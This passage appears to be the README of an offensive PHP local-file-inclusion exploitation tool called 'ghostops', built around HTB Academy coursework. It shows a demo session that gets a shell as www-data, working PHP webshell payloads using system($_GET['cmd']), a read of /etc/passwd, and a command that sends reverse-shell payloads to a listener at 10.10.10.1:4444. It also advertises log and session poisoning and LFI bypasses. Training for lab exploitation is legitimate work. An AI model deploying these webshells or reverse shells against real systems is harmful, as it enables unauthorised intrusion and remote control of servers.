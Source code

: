 ```bash
  2) Reverse shell
  3) Generate payloads
  4) Exit

Choice [1]: 1

ghostops@target:~$ whoami
www-data

ghostops@target:~$ generate shells
[WEBSHELLS]
minimal: <?php system($_GET["cmd"]); ?>
request: <?php system($_REQUEST["cmd"]); ?>

ghostops@target:~$ revshell
Enter your IP: 10.10.10.1
Enter your port: 4444
[+] All payloads sent! Check your listener.
```

---

## 🎯 Interactive Shell Commands

```bash
ghostops@target:~$ whoami                # Any command
ghostops@target:~$ cat /etc/passwd       # Any command

ghostops@target:~$ revshell              # Deploy reverse shell
ghostops@target:~$ generate shells       # Generate webshells
ghostops@target:~$ generate lfi          # Generate LFI payloads
ghostops@target:~$ generate wrappers     # Generate wrapper payloads
ghostops@target:~$ generate revshell     # Generate reverse shells

ghostops@target:~$ exit                  # Exit shell
```

---

## 🎓 HTB Academy Coverage

✅ **Configuration Check** - Reads php.ini, checks settings
✅ **expect:// Wrapper** - Direct command execution
✅ **data:// Wrapper** - Base64 + plain text methods
✅ **php://input Wrapper** - $_GET, $_REQUEST, direct variants
✅ **Testing Order** - HTB Academy recommended sequence
✅ **All Examples** - Every technique from the course

**Plus Advanced Features:**
✅ Log poisoning (Apache, Nginx)
✅ Session poisoning (PHP sessions)
✅ LFI bypass techniques
✅ Integrated payload generation

---